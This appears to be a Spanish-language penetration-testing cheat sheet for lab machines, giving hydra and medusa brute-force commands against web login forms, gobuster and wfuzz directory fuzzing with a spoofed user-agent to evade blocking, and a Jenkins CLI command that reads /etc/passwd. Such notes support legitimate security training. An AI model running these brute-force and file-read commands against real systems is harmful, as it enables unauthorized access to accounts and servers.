 hydra -l admin -P /usr/share/wordlists/rockyou.txt "realgob.dl" http-post-form "/admin.php:username=^USER^&password=^PASS^:H=Cookie: PHPSESSID=t4ebcjusiu12d3olhsmneorq9t:F=Usuario o contraseña incorrectos." -F 


con medusa:

medusa -h 172.17.0.2 -U usuarios.txt -P contraseñas.txt -M web-form -m FORM:/login.php -m FORM-DATA:"username=&password=" -m DENY:"Nombre de usuario o contraseña incorrectos."


Los parámetros de username y password debemos verlo directamente del formulario haciendo ctrl + u y verificar que parámetros son.

-------------------------------------------------------------------------------

## 3.- Rutas para fuzzing web con gobuster

gobuster dir -t 200 -u http://172.17.0.1/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html -r -b 403,404 2>/dev/null

quitamos el -r para ver redirecciones, es importante, ver máquina elevator

/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt

a veces hay error al hacer gobuster y una de las razón es porque el servidor web bloquea el user-agent

Aplicamos el siguiente comando para confirmar 

curl -s 192.168.42.151

si me sale el error 403, está bloqueando el user-agent

curl -s 192.168.42.151 -A jorgas

entonces lanzamos el siguiente comando para encontrar directorios:

wfuzz -c -t 200 --hc=404 -H "User-Agent: jorgas" -w /usr/share/seclists/Discovery/Web-Content/common.txt http://192.168.42.151/FUZZ

-------------------------------------------------------------------------------

## 4.-JENKINS

a.- Si hacemos gobuster a un servidor donde corre jenkins y encontrasmos

/cli (Status 200)

 hacemos lo siguiente:

a..1.- wget http://172.17.0.2:8080/jnlpJars/jenkins-cli.jar

a.2.- Buscamos usuarios:

java -jar jenkins-cli.jar -s http://172.17.0.2:8080/ -http connect-node "@/etc/passwd"

si está corriendo ssh, podemos hacer un ataque de fuerza bruta con hydra, o realizar otras técnicas.
